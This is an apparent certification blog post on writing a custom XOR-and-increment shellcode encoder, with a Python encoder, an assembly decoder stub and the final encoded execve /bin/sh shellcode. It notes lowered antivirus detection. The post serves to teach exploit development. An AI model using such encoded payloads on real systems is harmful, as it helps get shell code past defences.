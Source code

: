 ```yaml
---
layout: single
title: "SLAE: Shellcode Encoder"
excerpt: "created for completing the requirements of the SecurityTube Linux Assembly Expert certification"
date: 2020-06-23
header:
  #image: /assets/images/SHELLCODING32.png
  thumb: /assets/images/SHELLCODING32.png
  teaser: /assets/images/SHELLCODING32.png
  teaser_home_page: true
classes: wide
categories:
  - SLAE
  - infosec
tags:
  - shellcode
  - assembly
---
```



#### This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert

_*all supporting code can be found [here](https://github.com/RawrRadioMouse/SLAE_study/tree/master/Assignment_2)*_

![slae32](/assets/images/SHELLCODING32.png)
Student ID: SLAE - 1532


This assignment will see us create and confirm the execution of a custom shellcode encoder. The payload will be a simple execve syscall calling //bin/sh as below:

![execve](/assets/images/SLAE_4/1.JPG)

First we will need to encode the raw shellcode, and then write a decoder in assembly which we will extract and prepend to our encoded shellcode. 

This is known as a "[decoder stub](http://uninformed.org/index.cgi?v=9&a=3&p=4)", it essentially runs prior to the encoded shellcode upon execution, and by the time the payload is reached it is decoded and ready to go.

#### Encoder:
After a lot of trial and error, I opted for 2 very simple techniques spliced together.

First, I modified Vivek's python script to take our shellcode and then xor each byte before incrementing them by 3 as below:

```
#!/usr/bin/python
# XOR all bytes then increase them by 3
# Python Encoder 

shellcode = ("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80")


encoded = ""
encoded2 = ""

print 'Encoded shellcode ...'

for x in bytearray(shellcode) :
	x = x^0xaa
	encoded += '\\x'
	encoded += '%02x' % (x+3) # %02x tells format() to use at least 2 digits in hex

	encoded2 += '0x'
	encoded2 += '%02x,' % (x+3)


print encoded

print encoded2

print 'Len: %d' % len(bytearray(shellcode))
```

We run our script with the shellcode and get out encoded payload:

![execve](/assets/images/SLAE_4/1.JPG)


#### Decoder:

Using the same tricks from previous assignments, I was able to write a simple yet effective decoder.

```
global _start			

section .text
_start:

	jmp short call_shellcode ; jump to call_shellcode, call decoder
decoder:
	pop esi ; (because we jumped, the next address is that of our shellcode)
	xor eax, eax
	xor ebx, ebx
	xor ecx, ecx
	mov cl, 25 ; set our loop length (equal to that of our generated shellcode)

decode2:
	sub byte [esi], 0x03
	xor byte [esi], 0xaa
	inc esi ; increment esi to run through all bytes
	loop decode2
	jmp short EncodedShellcode ; once complete jump into out decoded payload!



call_shellcode:

	call decoder
	EncodedShellcode: db 0x9e,0x6d,0xfd,0xc5,0x88,0x88,0xdc,0xc5,0xc5,0x88,0xcb,0xc6,0xc7,0x26,0x4c,0xfd,0x26,0x4b,0xfc,0x26,0x4e,0x1d,0xa4,0x6a,0x2d

```

We now pull the shellcode from our compiled decoder, which will altogether yield both the decoder stub and payload

```objdump -d ./insertion-decoder|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\xeb\x14\x5e\x31\xc0\x31\xdb\x31\xc9\xb1\x19\x80\x2e\x03\x80\x36\xaa\x46\xe2\xf7\xeb\x05\xe8\xe7\xff\xff\xff\x9e\x6d\xfd\xc5\x88\x88\xdc\xc5\xc5\x88\xcb\xc6\xc7\x26\x4c\xfd\x26\x4b\xfc\x26\x4e\x1d\xa4\x6a\x2d"
```
The complete shellcode goes in our c program, and we test the decoder stub:

![shellcode_in_c](/assets/images/SLAE_4/3.JPG)

![execution](/assets/images/SLAE_4/4.JPG)

Although I opted to try and keep this as simple as possible, the results from [VirusTotal](https://www.virustotal.com/gui/file/8905dfb42a756e8d155aa696e6d4b39259ffecc6d8075d80885adbc8d9f816d5/detection) were not that bad.

![virus_total](/assets/images/SLAE_4/5.JPG)
